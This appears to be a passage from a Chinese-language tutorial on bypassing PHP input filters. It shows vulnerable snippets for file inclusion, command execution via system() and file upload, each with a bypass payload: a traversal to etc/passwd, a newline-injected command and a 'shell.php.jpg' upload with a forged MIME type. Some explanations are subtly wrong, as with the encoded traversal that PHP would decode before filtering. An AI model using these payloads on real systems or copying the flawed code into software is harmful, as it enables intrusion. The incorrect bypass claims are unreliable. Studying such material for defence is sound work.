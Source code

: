 #### 示例2：文件包含绕过
攻击者可以利用字符编码或路径截断来绕过文件路径过滤。

##### 漏洞代码：
```php
<?php
$file = str_replace("../", "", $_GET['file']);  // 移除目录遍历字符
include($file);
?>
```

##### 绕过方法：
利用字符编码：
```
http://example.com/page.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

### 2. 绕过空格过滤

#### 示例：命令执行绕过
通过替换空格字符来绕过过滤，例如使用换行符（%0A）或制表符（%09）。

##### 漏洞代码：
```php
<?php
$cmd = str_replace(" ", "", $_GET['cmd']);  // 移除空格
system($cmd);
?>
```

##### 绕过方法：
利用换行符或制表符：
```
http://example.com/page.php?cmd=ls%0A-l
```

### 3. 绕过文件上传限制

#### 示例：文件上传绕过
通过伪造文件类型或双重扩展名来绕过文件类型检查。

##### 漏洞代码：
```php
<?php
$allowed_types = ['image/jpeg', 'image/png'];
if (in_array($_FILES['file']['type'], $allowed_types)) {
    move_uploaded_file($_FILES['file']['tmp_name'], 'uploads/' . $_FILES['file']['name']);
}
?>
```

##### 绕过方法：
通过双重扩展名：
```
上传文件名：shell.php.jpg
```
或者伪造MIME类型：
```
Content-Type: image/jpeg
```
